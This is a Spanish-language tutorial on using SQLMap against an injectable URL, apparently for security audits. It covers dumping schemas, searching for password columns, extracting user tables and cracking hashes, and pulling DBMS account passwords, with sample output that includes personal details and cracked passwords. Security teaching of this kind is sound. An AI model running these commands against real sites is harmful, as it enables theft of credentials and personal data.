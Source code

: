 # **Enumeración Avanzada de Bases de Datos con SQLMap**

## **1. Enumeración del Esquema de la Base de Datos**

Para obtener la estructura de todas las tablas y columnas de las bases de datos disponibles, utilizamos:

```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

### **Ejemplo de salida:**

```
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

Esto proporciona una visión completa de la estructura de la base de datos.

---

## **2. Búsqueda de Datos en la Base de Datos**

Si una base de datos tiene muchas tablas y columnas, SQLMap permite buscar nombres específicos con `--search`.

### **Buscar Tablas con una Palabra Clave**

Por ejemplo, para encontrar tablas con el nombre `user`:

```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

### **Ejemplo de salida:**

```
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+
```

### **Buscar Columnas con una Palabra Clave**

Para encontrar todas las columnas con `pass` en su nombre:

```bash
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### **Ejemplo de salida:**

```
Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+
```

Esto permite encontrar información sensible como contraseñas almacenadas.

---

## **3. Extracción de Contraseñas y Cracking**

Si encontramos una tabla que contiene contraseñas (ejemplo: `master.users`), podemos extraer su contenido:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

Si SQLMap detecta hashes, preguntará si queremos intentar descifrarlos con un ataque de diccionario:

```
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
```

Podemos elegir el diccionario a usar:

```
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_'
[2] custom dictionary file
[3] file with list of dictionary files
> 1
```

### **Ejemplo de salida con hashes descifrados:**

```
Database: master
Table: users
[4 entries]
+----+------------------+-------------------+------------------+-------------------------------------------------------------+
| id | name            | email             | phone            | password                                                    |
+----+------------------+-------------------+------------------+-------------------------------------------------------------+
| 1  | Maynard Rice    | MaynardMRice@yahoo.com  | 281-559-0172 | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             |
| 2  | Julio Thomas    | JulioWThomas@gmail.com | 973-426-5961 | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           |
| 3  | Kenneth Maloney | KennethTMaloney@gmail.com | 954-617-0424 | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         |
| 4  | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) |
+----+------------------+-------------------+------------------+-------------------------------------------------------------+
```

Si la contraseña no es aleatoria, SQLMap puede descifrarla con éxito utilizando su base de datos de contraseñas comunes.

---

## **4. Extracción y Cracking de Contraseñas de Usuarios del DBMS**

Además de credenciales en tablas, SQLMap puede extraer contraseñas de usuarios de bases de datos (ejemplo: `mysql.user`):

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

### **Ejemplo de salida:**

```
[INFO] retrieved: 'root'
[INFO] retrieved: 'debian-sys-maint'
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```

Esto permite obtener credenciales del sistema de base de datos, que podrían permitir un acceso más profundo.

---

## **5. Enumeración Completa con `--all`**

Si queremos extraer toda la información disponible en la base de datos:

```bash
sqlmap -u "http://www.example.com/?id=1" --all --batch
```

⚠️ **Nota:** Este proceso puede tomar mucho tiempo, ya que SQLMap extraerá **todas** las bases de datos, tablas y registros accesibles.

---

## **6. Consejos para Optimizar la Enumeración**

- **Usar `--search`** para reducir la cantidad de datos innecesarios.
- **Limitar el volcado de datos con `--start` y `--stop`** si la tabla es muy grande.
- **Utilizar `--where`** para filtrar datos por una condición específica.
- **Especificar formatos de salida con `--dump-format=sqlite`** si se necesita analizar la base de datos en otro entorno.

---

## **Conclusión**

Con estas técnicas avanzadas de enumeración, es posible extraer datos de manera eficiente y encontrar información sensible en bases de datos vulnerables. SQLMap proporciona herramientas para buscar, extraer y crackear credenciales, lo que lo convierte en una herramienta poderosa para auditorías de seguridad. 🚀